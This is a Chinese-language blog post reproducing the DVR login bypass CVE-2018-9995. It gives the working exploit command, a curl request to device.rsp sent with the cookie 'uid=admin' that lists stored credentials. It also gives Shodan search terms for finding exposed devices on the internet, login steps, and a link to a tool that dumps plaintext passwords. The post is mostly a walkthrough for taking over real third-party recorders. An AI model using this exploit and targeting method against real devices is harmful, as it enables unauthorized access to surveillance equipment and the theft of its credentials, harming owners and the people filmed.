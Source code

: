 ```yaml
---
title: DVR登录绕过漏洞(CVE-2018-9995)
categories:
- CVE-2018-9995
tags:
- 漏洞
updated: 2018-05-23
---
```


前两天的时候网上爆出了关于DVR登录绕过的漏洞（CVE-2018-9995），身边的有个大佬玩的high的不得了，今天有时间来复现一下看下效果。



网上复现的文章也挺多的，原理就是这些DVR的cookie都好简单,”uid=admin”,然后凭证都是明文…（作大死）

利用代码：

```
curl "http://<dvr_host>:<port>/device.rsp?opt=user&cmd=list" -H "Cookie: uid=admin"
```

网上说使用shodan,zoomeye,fofa,google等搜索引擎,可以查到;

不推荐zoomeye（钟馗之眼），因为made in china，里面中国的ip全部隐藏了。

推荐使用shodan：

搜索关键字:”/longin.rsp”或者”GNU rsp/1.0”,如图:

<img src="{{ site.url }}/assets//blog_images/CVE-2018-9995_01.png" />

条件:存在device.rsp页面并可访问（一定要可以访问的）

使用curl命令:

<img src="{{ site.url }}/assets//blog_images/CVE-2018-9995_02.png" />

登录账号：admin        密码为空

直接登录即可（使用IE浏览器）：

<img src="{{ site.url }}/assets//blog_images/CVE-2018-9995_03.png" />



还有一个阿根廷的大牛写了个py工具,直接获取明文密码

工具发布在了github上

```
:<https://github.com/ezelf/CVE-2018-9995_dvr_credentials>
```

最后共勉一句话：

《善恶的彼岸》146小节，原文
Wer mit Ungeheuern kämpft, mag zusehn, dass er nicht dabei zum Ungeheuer wird. Und wenn du lange in einen Abgrund blickst, blickt der Abgrund auch in dich hinein.

 -------当你在凝望深渊的时候,深渊也在凝望你

 

 

 

 

 

### 







​
